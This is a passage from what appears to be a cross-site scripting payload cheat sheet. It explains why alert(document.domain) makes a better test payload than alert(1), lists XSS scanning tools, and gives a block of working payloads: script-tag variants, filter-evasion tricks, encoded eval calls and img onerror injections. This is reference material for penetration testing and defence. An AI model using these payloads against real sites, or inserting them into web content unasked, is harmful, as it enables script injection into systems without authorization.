 > to safely host various types of user-generated content. Many of these sandboxes are specifically meant to isolate user-uploaded HTML, JavaScript, or Flash applets and make sure that they can't access any user data.

[sandbox-domains]:https://security.googleblog.com/2012/08/content-hosting-for-modern-web.html

For this reason, it's better to use `alert(document.domain)` or `alert(window.origin)` rather than `alert(1)` as default XSS payload in order to know in which scope the XSS is actually executing.

Better payload replacing `<script>alert(1)</script>`:

```html
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```

While `alert()` is nice for reflected XSS it can quickly become a burden for stored XSS because it requires to close the popup for each execution, so `console.log()` can be used instead to display a message in the console of the developer console (doesn't require any interaction).

Example:

```html
<script>console.log("Test XSS from the search bar of page XYZ\n".concat(document.domain).concat("\n").concat(window.origin))</script>
```

References:

- [Google Bughunter University - XSS in sandbox domains](https://sites.google.com/site/bughunteruniversity/nonvuln/xss-in-sandbox-domain)
- [LiveOverflow Video - DO NOT USE alert(1) for XSS](https://www.youtube.com/watch?v=KHwVjzWei1c)
- [LiveOverflow blog post - DO NOT USE alert(1) for XSS](https://liveoverflow.com/do-not-use-alert-1-in-xss/)

### Tools 

Most tools are also suitable for blind XSS attacks:

* [XSSStrike](https://github.com/s0md3v/XSStrike): Very popular but unfortunately not very well maintained
* [xsser](https://github.com/epsylon/xsser): Utilizes a headless browser to detect XSS vulnerabilities
* [Dalfox](https://github.com/hahwul/dalfox): Extensive functionality and extremely fast thanks to the implementation in Go
* [XSpear](https://github.com/hahwul/XSpear): Similar to Dalfox but based on Ruby
* [domdig](https://github.com/fcavallarin/domdig): Headless Chrome XSS Tester

## XSS in HTML/Applications

### Common Payloads

```javascript
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
```